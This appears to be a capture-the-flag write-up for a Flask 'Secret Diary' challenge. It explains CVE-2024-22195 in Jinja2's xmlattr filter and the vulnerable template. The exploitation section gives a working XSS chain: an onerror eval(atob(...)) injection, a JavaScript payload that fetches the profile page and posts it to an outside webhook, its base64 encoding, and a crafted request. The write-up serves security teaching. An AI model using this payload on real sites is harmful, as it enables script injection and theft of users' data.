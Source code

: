 # Secret Diary

Tell me your secrets and I will keep them safe.

## Vulnerability
Flask app uses a vulnerable Jinja2 version (CVE-2024-22195):

https://github.com/pallets/jinja/security/advisories/GHSA-h5c8-rqwp-cp95

```text
xmlattr filter in affected versions of Jinja accepts keys containing spaces.
XML/HTML attributes cannot contain spaces, as each would then be interpreted 
as a separate attribute. If an application accepts keys (as opposed to only
values) as user input, and renders these in pages that other users see as well,
an attacker could use this to inject other attributes and perform XSS. 
Note that accepting keys as user input is not common or a particularly 
intended use case of the xmlattr filter, and an application doing so should 
already be verifying what keys are provided regardless of this fix.
```
## Detection

The vulnerability can be found either by reviewing the dependencies inside the requirements.txt file, or just by testing the app form fields, as it is easy to trigger. Inside the requirements.txt file, all dependency versions are specified using the >= operator (minimum version allowed), while the Jinja2 package forces a specific vulnerable version (3.1.2)

## Vulnerability details
Vuln was fixed in commit https://github.com/pallets/jinja/commit/7dd3680e6eea0d77fde024763657aa4d884ddb23

Specifically, a new regular expression checks if the attribute name contains spaces, and if so, it raises an exception.

However, even before the patch, some characters are still escaped, using `from markupsafe import escape`.
To simplify the challenge, the checks performed in the `markupsafe` library are replicated inside the function `contains_illegal_char`, so it is not necessary to analyze the source code of the dependencies.

Source: https://github.com/pallets/markupsafe/blob/main/src/markupsafe/_native.py#L8 

The following chars are replaced with the HTML-safe equivalent values. In our function, 
user is redirected to the tryharder.html page instead, so they immediately know that their payload is not valid.
```python
str(value)
.replace("&", "\&amp;")
.replace(">", "\&gt;")
.replace("<", "\&lt;")
.replace("'", "\&#39;")
.replace('"', "\&#34;")
```
## Exploitation

The web has an option to mark an image as "sensitive". If the image is marked as sensitive, 
the server will return the image `sensitive` attribute set in the HTML output, which blurs the image when rendering in the browser.
The original image is still displayed by hovering.

The implementation is interesting because instead of submitting a boolean attribute with this property, 
it passes a parameter called `img_type` with the value `sensitive` if the image should be blurred, or `not-sensitive` otherwise.
This parameter is then used along others to build the img tag in the HTML output, using the `xmlattr` filter available in Jinja2.


### Vulnerable code
Inside profile.html template:
```html
<div class="card-image-container">
    <img{{ {'src': entry.img_src, entry.img_type: 'true', 'class': 'card-img-top'}|xmlattr }}/>
</div>
```

### Exploitation Idea
We can control one attribute name inside the `<img>` tag, and as long as it does not contain quotes or '<', '>' and '&' it should be allowed. 
A critical thing that Jinja2 overlooked was spaces. By using spaces in the attribute name, the browser will actually parse them as multiple attributes.

To bypass the forbidden characters, we can use an event such as `onerror` with the following payload that allows us to evaluate arbitrary code:
```javascript
eval(atob(this.id))
```
And write our payload base64 encoded inside the id attribute or any other.

Example payload to retrieve the admin page and exfiltrate the content to an arbitrary webhook:
```javascript
fetch('/profile/').then(r => r.text()).then(t => fetch('https://webhook.site/bcd8c6ea-46a1-4c03-8dd9-9a6b57361eef', {method: 'POST', body: t}))
```
as post request, using base64 encoded 
```
ZmV0Y2goJy9wcm9maWxlLycpLnRoZW4ociA9PiByLnRleHQoKSkudGhlbih0ID0+IGZldGNoKCdodHRwczovL3dlYmhvb2suc2l0ZS9iY2Q4YzZlYS00NmExLTRjMDMtOGRkOS05YTZiNTczNjFlZWYnLCB7bWV0aG9kOiAnUE9TVCcsIGJvZHk6IHR9KS
```

```
img_src=x&text=hisanta&csrf_token={CSRF_TOKEN}&img_type=id%3D{PAYLOAD}%20onerror%3Deval%28atob%28this%2Eid%29%29
```

Or editing manually the img_type parameter in the hidden field in the profile page:
```
id=ZmV0Y2goJy9wcm9maWxlLycpLnRoZW4ociA9PiByLnRleHQoKSkudGhlbih0ID0+IGZldGNoKCdodHRwczovL3dlYmhvb2suc2l0ZS9iY2Q4YzZlYS00NmExLTRjMDMtOGRkOS05YTZiNTczNjFlZWYnLCB7bWV0aG9kOiAnUE9TVCcsIGJvZHk6IHR9KSk onerror=eval(atob(this.id)) a=
```

![img.png](img.png)
